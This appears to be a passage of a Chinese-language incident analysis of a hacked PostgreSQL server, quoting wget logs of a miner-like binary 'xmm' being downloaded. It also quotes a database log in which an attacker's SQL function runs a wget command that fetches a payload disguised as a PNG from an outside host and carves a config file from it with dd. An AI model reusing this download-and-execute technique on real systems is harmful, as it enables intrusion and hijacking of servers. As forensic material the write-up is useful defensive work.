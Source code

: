 ```
5167    800K .......... .......... .......... .......... .......... 31% 94.9K 13s
5168    850K .......... .......... .......... .......... .......... 33%  101K 13s
5169    900K .......... .......... .......... .......... .......... 35% 53.6K 14s
5170    950K .......... .......... .......... .......... .......... 37% 94.3K 14s
5171   1000K .......... .......... .......... .......... .......... 38% 77.0K 13s
5172   1050K .......... .......... .......... .......... .......... 40% 73.6K 13s
5173   1100K .......... .......... .......... .......... .......... 42% 97.2K 13s
5174   1150K .......... .......... .......... .......... .......... 44%  130K 13s
5175   1200K .......... .......... .......... .......... .......... 46%  194K 12s
5176   1250K .......... .......... .......... .......... .......... 48%  173K 12s
5177   1300K .......... .......... .......... .......... .......... 50%  109K 11s
5178   1350K .......... .......... .......... .......... .......... 51% 82.9K 11s
5179   1400K .......... .......... .......... .......... .......... 53%  134K 10s
5180   1450K .......... .......... .......... .......... .......... 55%  106K 10s
5181   1500K .......... .......... .......... .......... .......... 57%  188K 10s
5182   1550K .......... .......... .......... .......... .......... 59% 51.4K 9s
5183   1600K .......... .......... .......... .......... .......... 61% 54.6K 9s
5184   1650K .......... .......... .......... .......... .......... 63% 86.8K 9s
5185   1700K .......... .......... .......... .......... .......... 64%  160K 8s
5186   1750K .......... .......... .......... .......... .......... 66% 97.9K 8s
5187   1800K .......... .......... .......... .......... .......... 68%  153K 8s
5188   1850K .......... .......... .......... .......... .......... 70%  127K 7s
5189   1900K .......... .......... .......... .......... .......... 72%  117K 7s
5190   1950K .......... .......... .......... .......... .......... 74% 63.8K 6s
5191   2000K .......... .......... .......... .......... .......... 76%  119K 6s
5192   2050K .......... .......... .......... .......... .......... 77% 67.1K 5s
5193   2100K .......... .......... .......... .......... .......... 79% 98.0K 5s
5194   2150K .......... .......... .......... .......... .......... 81%  127K 5s
5195   2200K .......... .......... .......... .......... .......... 83%  105K 4s
5196   2250K .......... .......... .......... .......... .......... 85% 99.6K 4s
5197   2300K .......... .......... .......... .......... .......... 87% 76.9K 3s
5198   2350K .......... .......... .......... .......... .......... 89%  162K 3s
5199   2400K .......... .......... .......... .......... .......... 90%  153K 2s
5200   2450K .......... .......... .......... .......... .......... 92%  239K 2s
5201   2500K .......... .......... .......... .......... .......... 94%  160K 1s
5202   2550K .......... .......... .......... .......... .......... 96%  191K 1s
5203   2600K .......... .......... .......... .......... .......... 98%  118K 0s
5204   2650K .......... .......... .......... .......... ...       100% 82.4K=24s
5205
5206 2018-08-11 15:47:54 (111 KB/s) - ‘xmm’ saved [2758655/2758655]
5207
```

2. 发现更早的日志里，有两个连接从 `img1.imagehousing.com` 下载了两张图片, 并成功设置了 777 权限

```
 23 Resolving img1.imagehousing.com (img1.imagehousing.com)... 104.27.180.36, 104.27.181.36, 2400:cb00:2048:1::681b:b524, ...
 24 Connecting to img1.imagehousing.com (img1.imagehousing.com)|104.27.180.36|:80... connected.
 25 HTTP request sent, awaiting response... 200 OK
 26 Length: 1571 (1.5K) [image/png]
 27 Saving to: ‘./conf1.dat’
 28
 29      0K .                                                     100%  368M=0s
 30
 31 2018-08-05 12:54:26 (368 MB/s) - ‘./conf1.dat’ saved [1571/1571]
 32
 33 896+0 records in
 34 896+0 records out
 35 896 bytes copied, 0.000933778 s, 960 kB/s
 36 chmod: cannot access './x4064410502': No such file or directory
 37 2018-08-05 12:54:26 CST [24806-14] pgsql@postgres LOG:  duration: 810.107 ms  statement: select fun6404402637 ('wget  -c  http://img1.imagehousing.com/0/baby-942650.png -O ./conf1.dat;dd  skip=675  bs=1  if=./conf1.dat  of=config.json  ;rm -f ./conf1#
```